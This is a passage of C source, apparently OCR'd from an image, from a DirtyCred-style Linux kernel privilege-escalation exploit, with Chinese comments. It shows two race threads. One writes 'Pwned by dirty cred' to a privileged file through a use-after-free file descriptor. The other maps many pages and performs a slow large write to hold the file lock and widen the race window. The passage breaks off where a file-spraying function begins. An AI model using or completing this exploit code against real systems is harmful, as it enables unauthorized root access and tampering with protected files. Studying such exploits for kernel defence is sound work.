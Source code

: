 ```c
}

void *write_cmd()
{
    /**
     * 向特权文件写入恶意数据，并希望在check-write这个过程中文件被替换
     */
    char data[1024] = "Pwned by dirty cred\n";

    while (!run_write)
    {
        // do nothing, just wait
    }

    run_spray = 1;
    if (write(uaf_fd, data, strlen(data)) < 0)
    {
        err_exit("write cmd: write failed.");
    }

    info("Overwrite done!");
}

void *slow_write()
{
    /**
     * 正常写入大量数据，拉长时间窗口
     */
    info("Start to slow write to get the lock.");

    int fd = open("./uaf", 1);
    if (fd < 0)
    {
        err_exit("slow write open file failed");
    }

    // 在 addr 申请大量空间
    size_t addr = 0x30000000;
    int offset;
    for (offset = 0; offset < NR_PAGE; offset++)
    {
        void *r = mmap((void *)(addr + offset * 0x1000), 0x1000, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, 0, 0);
        if (r < 0)
        {
            err_exit("Mmap failed");
        }
    }
    assert(offset > 0);

    // 写入
    size_t wr_len = (NR_PAGE - 1) * 0x1000;
    run_write = 1;
    if (write(fd, (void *)addr, wr_len) < 0)
    {
        err_exit("write failed");
    }

    info("write done!");
    close(fd);
}

void spray_files(){
```